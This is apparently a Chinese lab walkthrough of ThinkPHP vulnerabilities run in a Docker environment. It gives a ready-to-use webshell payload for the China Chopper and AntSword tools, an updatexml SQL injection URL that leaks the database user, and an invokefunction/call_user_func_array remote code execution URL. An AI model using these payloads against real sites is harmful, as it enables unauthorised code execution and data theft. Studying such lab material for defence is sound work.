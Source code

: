 下面给出一个能够直接菜刀连接的payload：

    
    
    /index.php?s=a/b/c/${@print(eval($_POST[1]))}

![]()

使用蚁剑连接

![]()

![]()

## TP - 5.0.9-SQLi

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

![]()

  

访问`http://your-
ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![]()

找到数据库账号密码，敏感信息泄露。

![]()

![]()

## TP - 5.0.22/5.1.29-RCE

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

控制器名未过滤导致rce

`function`为反射调用的函数，`vars[0]`为传入的回调函数，`vars[1][]`为参数为回调函数的参数

运行ThinkPHP 5.0.20版本：

    
    
    docker compose up -d

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

![]()

直接访问`http://your-
ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行phpinfo

![]()
